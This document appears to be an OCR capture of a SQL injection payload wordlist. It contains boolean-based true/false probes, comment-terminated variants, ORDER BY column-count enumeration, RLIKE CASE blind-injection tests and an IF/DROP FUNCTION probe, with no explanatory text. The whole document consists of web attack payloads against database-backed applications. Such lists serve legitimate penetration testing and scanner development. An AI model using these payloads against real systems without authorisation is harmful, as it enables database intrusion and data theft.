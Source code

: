            AND 1=0-- 
           AND 1=1#
           AND 1=0#
           AND 1=1 AND '%'='
           AND 1=0 AND '%'='
           AND 1083=1083 AND (1427=1427
           AND 7506=9091 AND (5913=5913
           AND 1083=1083 AND ('1427=1427
           AND 7506=9091 AND ('5913=5913
           AND 7300=7300 AND 'pKlZ'='pKlZ
           AND 7300=7300 AND 'pKlZ'='pKlY
           AND 7300=7300 AND ('pKlZ'='pKlZ
           AND 7300=7300 AND ('pKlZ'='pKlY
           AS INJECTX WHERE 1=1 AND 1=1
           AS INJECTX WHERE 1=1 AND 1=0
           AS INJECTX WHERE 1=1 AND 1=1#
           AS INJECTX WHERE 1=1 AND 1=0#
           AS INJECTX WHERE 1=1 AND 1=1--
           AS INJECTX WHERE 1=1 AND 1=0--
           WHERE 1=1 AND 1=1
           WHERE 1=1 AND 1=0
           WHERE 1=1 AND 1=1#
           WHERE 1=1 AND 1=0#
           WHERE 1=1 AND 1=1--
           WHERE 1=1 AND 1=0--
           ORDER BY 1-- 
           ORDER BY 2-- 
           ORDER BY 3-- 
           ORDER BY 4-- 
           ORDER BY 5-- 
           ORDER BY 6-- 
           ORDER BY 7-- 
           ORDER BY 8-- 
           ORDER BY 9-- 
           ORDER BY 10-- 
           ORDER BY 31337-- 
           ORDER BY 1# 
           ORDER BY 2# 
           ORDER BY 3# 
           ORDER BY 4# 
           ORDER BY 5# 
           ORDER BY 6# 
           ORDER BY 7# 
           ORDER BY 8# 
           ORDER BY 9# 
           ORDER BY 10# 
           ORDER BY 31337#
           ORDER BY 1 
           ORDER BY 2 
           ORDER BY 3 
           ORDER BY 4 
           ORDER BY 5 
           ORDER BY 6 
           ORDER BY 7 
           ORDER BY 8 
           ORDER BY 9 
           ORDER BY 10 
           ORDER BY 31337 
           RLIKE (SELECT (CASE WHEN (4346=4346) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
           RLIKE (SELECT (CASE WHEN (4346=4347) THEN 0x61646d696e ELSE 0x28 END)) AND 'Txws'='
          IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
          IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
          %' AND 8310=8310 AND '%'='
          %' AND 8310=8311 AND '%'='